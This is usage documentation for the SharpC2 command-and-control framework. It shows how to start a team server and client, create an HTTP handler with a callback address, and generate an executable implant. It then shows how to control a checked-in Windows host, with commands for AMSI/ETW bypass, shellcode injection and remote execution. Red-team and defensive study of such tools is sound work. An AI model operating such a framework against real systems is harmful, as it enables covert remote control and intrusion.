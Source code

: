 # Basic Usage

## Start the Team Server

Launch the team server and provide a shared password that will be used by users to connect.  Make sure you run as root/admin if you want to bind handlers to low ports (e.g. port 80 for the HTTP handler).


```text
rasta@dev ~/S/T/b/R/n/o/publish (main)> sudo ./TeamServer -p Passw0rd!
info: Microsoft.Hosting.Lifetime[14]
      Now listening on: https://0.0.0.0:8443
info: Microsoft.Hosting.Lifetime[0]
      Application started. Press Ctrl+C to shut down.
info: Microsoft.Hosting.Lifetime[0]
      Hosting environment: Production
info: Microsoft.Hosting.Lifetime[0]
      Content root path: /Users/rasta/SharpC2/TeamServer/bin/Release/net6.0/osx-x64/publish
```

The team server will listen for user connections on port 8443 by default.  This can be changed in `appsettings.json`.
If the `ASPNETCORE_ENVIRONMENT` environment variable is set to `Development`, the team server's management interface will be bound to localhost only.  Set this to `Production` to have it listen on all interfaces.

## Start the Client

The client requires several command line options including `-s` (--server), `-p` (--port), `-n` (--nick) and `-P` (--password). You'll be prompted to accept the server's self-signed certificate unless `-i` (--ignore-ssl) is used.

```text
rasta@dev ~/S/C/b/R/n/o/publish (main)> ./SharpC2 -s localhost -p 8443 -n rasta -P Passw0rd! -i
  ___ _                   ___ ___ 
 / __| |_  __ _ _ _ _ __ / __|_  )
 \__ \ ' \/ _` | '_| '_ \ (__ / / 
 |___/_||_\__,_|_| | .__/\___/___|
                   |_|            
    @_RastaMouse                  
    @_xpn_                        


[drones] >
```

## Configure and Start a Handler

In SharpC2, "handlers" are akin to listeners in other frameworks.  SharpC2 handlers can do more than just "listen" for incoming data, which is why I elected to use different terminology.

The `[drones]` screen is the default for the client.  You can type `help` on any screen to see commands contextual to that screen.

```text
[drones] > help

Name          Description
----          -----------
credentials   Manage credentials
exit          Exit this client
handlers      Manage Handlers
help          Print a list of commands and their description
hide          Hide an inactive Drone.
hosted-files  Manage hosted files
interact      Interact with a Drone
list          List Drones
payload       Generate a payload
```

SharpC2 ships with three handler types. HTTP, TCP and SMB.  Use the `create` command to create a new handler.
`Usage: create <name> <type>`.

```text
[handlers] > create demo-http HTTP
[+] Handler "demo-http" created.
```

Use the `set` command to set parameters for a handler.
`Usage: set <handler> <parameter> <value>`.

```text
[handlers] > set demo-http ConnectAddress 192.168.1.105
[+] ConnectAddress set to 192.168.1.105
```

A handler can then be started and stopped using the `start` and `stop` commands respectively.

```text
[handlers] > start demo-http
[+] Handler "demo-http" started.

[handlers] > stop demo-http
[+] Handler "demo-http" stopped.
```

## Generate a Payload

Payloads can be generated from the `[drones]` screen, using the `payload` command.

```text
[drones] > payload demo-http Exe /tmp/http-drone.exe
[+] 164352 bytes saved.
```

## Interacting with Drones

```text
[+] Drone a47153bd55 checked in from IEUser@MSEDGEWIN10.

[drones] > list

Guid        Parent  Address      Hostname     Username  Process     Pid   Integrity  Arch  LastSeen
----        ------  -------      --------     --------  -------     ---   ---------  ----  --------
a47153bd55  -       10.211.55.6  MSEDGEWIN10  IEUser    http-drone  7860  Medium     x64   18/12/2021 17:30:16
```

To interact with a Drone, use `interact <guid>`.

```text
[drones] > interact a47153bd55
[a47153bd55] > help

Name              Description
----              -----------
abort             Abort a running task
back              Go back to the previous screen
bypass            Set a directive to bypass AMSI/ETW on tasks
cat               Read a file as text
cd                Change working directory
execute-assembly  Execute a .NET assembly
exit              Exit this Drone
getuid            Get current identity
help              Print a list of commands and their description
link              Link to an SMB Drone
load-module       Load an external Drone module
ls                List filesystem
mkdir             Create a directory
overload          Map and execute a native DLL
ps                List running processes
pwd               Print working directory
rm                Delete a file
rmdir             Delete a directory
run               Run a command
services          List services on the current or target machine
shell             Run a command via cmd.exe
shinject          Inject arbitrary shellcode into a process
sleep             Set sleep interval and jitter
upload            Upload a file to the current working directory of the Drone
```

```text
[a47153bd55] > getuid
[+] Tasked Drone to run getuid.
[+] Drone checked in.  Sent 176 bytes.
[+] Drone task 57582950c7 is running.

GHOST-CANYON\Daniel

[+] Drone task 57582950c7 has completed.
```